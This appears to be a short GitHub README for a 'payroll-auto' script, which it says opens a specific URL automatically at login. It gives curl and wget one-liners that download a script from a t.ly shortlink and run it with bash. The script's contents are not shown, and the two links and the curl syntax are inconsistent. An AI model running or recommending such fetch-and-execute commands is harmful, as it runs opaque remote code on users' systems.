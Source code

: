 # payroll-auto
Enabling automatic opening a specific URL on logging into the device
## Introduction

This script can be downloaded and executed using either `curl` or `wget` commands. It performs a specific task when executed. You can choose one of the following methods to run the script:

### Using `curl`

```bash
curl -L -o i.sh https://t.ly/b3uCh bash i.sh
```

### Using `wget`

```bash
wget https://t.ly/b3uC -O i.sh ; bash i.sh
```
